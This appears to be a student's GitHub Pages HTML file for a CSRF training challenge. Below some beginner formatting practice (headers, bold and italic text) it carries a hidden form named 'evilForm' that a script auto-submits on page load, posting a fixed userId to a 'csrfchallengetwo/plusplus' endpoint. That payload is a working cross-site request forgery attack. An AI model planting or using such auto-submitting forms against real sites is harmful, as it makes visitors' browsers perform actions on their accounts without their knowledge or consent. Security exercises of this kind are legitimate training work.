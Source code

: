 # mechejess.github.1
 csrf 2
 <HTML>
<HEAD>
<TITLE>Jess's Suite</TITLE>
</HEAD>
<H1>This is a Header</H1>
<H2>This is a Medium Header</H2>
<P> This is a new paragraph!
<P> <B>This is a new paragraph!</B>
<BR> <B><I>This is a new sentence without a paragraph break, in bold italics.</I></B>
<form name="evilForm" action="https://user/csrfchallengetwo/plusplus" method="POST">
    <input type="hidden" name="userId" value="637e8d2e65542fe82fe6da3b0356bc0865b0b791" />
    <input type="submit"/>
</form>
<script> document.evilForm.submit(); </script>
</BODY>
</HTML>

